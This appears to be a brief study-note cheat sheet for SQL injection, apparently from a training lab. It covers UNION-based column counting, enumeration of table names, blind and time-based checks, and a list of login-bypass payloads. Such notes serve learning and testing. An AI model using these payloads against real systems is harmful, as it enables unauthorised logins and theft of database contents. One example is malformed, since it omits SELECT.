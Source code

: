 ## SQLi Trick/Tips

### In-Band
1. Try using an apostrophe or quotation mark in the field first. If you receive an error message about syntax, then you have a possible SQLi vulnerability.
2. Use `1 UNION SELECT 1` to see how many columns are available in the orginal query. Keep incrementing the columns like `1 UNION 1,2`, then `1 UNION SELECT 1,2,3`, etc.
3. Now replace the last column number with a command like `group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.

### Blind
* *Authentication Bypass* - Try `' OR 1=1;--` or other always true statement.
* *Boolean-based* - Deductive reasoning by generating false values until discovering actual value.
* *Time-based* - Using SLEEP statements like `UNION SELECT SLEEP(5);--`.

### Quick login bypasses
* `admin' --`
* `admin' #`
* `admin'/*`
* `' or 1=1--`
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1--`
*  Login as different user
  `UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

More at https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
